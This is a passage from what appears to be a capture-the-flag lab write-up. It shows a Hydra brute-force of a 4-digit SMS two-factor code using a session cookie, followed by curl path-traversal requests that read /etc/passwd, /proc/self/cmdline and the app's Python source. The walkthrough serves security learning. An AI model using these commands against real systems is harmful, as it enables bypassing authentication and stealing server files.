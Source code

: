 ## Flag 2: 2FA validation

It seems that it expects a 4-digit number, we can try to bruteforce it with Hydra (again - oh and add your cookie if you want to reach the SMS page !)
```
# Generate all numbers in a file
$ seq 10000 19999|sed 's/1//' > codes.txt

$ hydra -l _REDACTED_ -P codes.txt -s 8080 10.10.247.142 http-post-form "/sms:sms=^PASS^:Invalid:H=Cookie: session=_REDACTED_"  
[8080][http-post-form] host: 10.10.247.142 login: _REDACTED_ password: 2874  
```
Hydra found the OTP ! (note: it's a random number, it changes every time...)

Oh, and we have another flag.

## Flag 3: get app source code

Now, let's have a look at the website.

Nothing interesting, except the Internal News section, and its button. If we curl that, we can play with news' value.
```
$ curl 'http://10.10.247.142:8080/internal' -X POST \  
-H 'Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYW5kZXJzIn0.ZJCgxg.Eqi1fO3hRSnO0JDmoj0FwgvogbM'\  
--data-raw 'news=latest'
```
* Any other value causes an error 500 🤔
* /etc/passwd as well
* ../../etc/passwd --> it works

So we can basically reads some files on the server. The most interesting one is probably /proc/self/cmdline: we know (from Nmap) that this website is running under Python, we'll be able to see the source code !

```
$ curl 'http://10.10.247.142:8080/internal' -X POST \  
-H 'Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYW5kZXJzIn0.ZJCgxg.Eqi1fO3hRSnO0JDmoj0FwgvogbM'\  
--data-raw 'news=../../proc/self/cmdline' -s | sed '1,/<.form>/d;/div/,$d'  
  
  
/usr/bin/python3/home/devops/app.py
```
The script is /home/devops/app.py -- and we can probably get it as well :
```
$ curl 'http://10.10.247.142:8080/internal' -X POST \  
-H 'Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYW5kZXJzIn0.ZJCgxg.Eqi1fO3hRSnO0JDmoj0FwgvogbM'\  
--data-raw 'news=../../home/devops/app.py' -s \  
| sed '1,/<.form>/d;/div/,$d;s/&#34;/"/g' > app.py
```

